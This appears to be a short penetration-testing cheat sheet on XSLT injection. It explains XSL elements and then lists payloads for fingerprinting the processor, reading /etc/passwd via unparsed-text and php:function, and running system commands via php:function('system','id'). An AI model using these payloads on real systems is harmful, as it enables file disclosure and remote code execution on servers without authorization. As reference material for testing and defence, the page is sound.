 ## XSLT Injection

eXtensible Stylesheet Language Transformation (XSLT) is a language enabling the transformation of XML documents. For instance, it can select specific nodes from an XML document and change the XML structure.
XSLT can be used to define a data format which is subsequently enriched with data from the XML document. XSLT data is structured similarly to XML. However, it contains XSL elements within nodes prefixed with the xsl-prefix. The following are some commonly used XSL elements:
- <xsl:template>: This element indicates an XSL template. It can contain a match attribute that contains a path in the XML document that the template applies to
- <xsl:value-of>: This element extracts the value of the XML node specified in the select attribute
- <xsl:for-each>: This element enables looping over all XML nodes specified in the select attribute

Example
````
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
	<xsl:template match="/fruits">
		Here are all the fruits:
		<xsl:for-each select="fruit">
			<xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
		</xsl:for-each>
	</xsl:template>
</xsl:stylesheet>
````

### Exploitation
````
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
````
**Local File Inclusion**
````
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
````
**Remote Code Execution**
````
<xsl:value-of select="php:function('system','id')" />
````
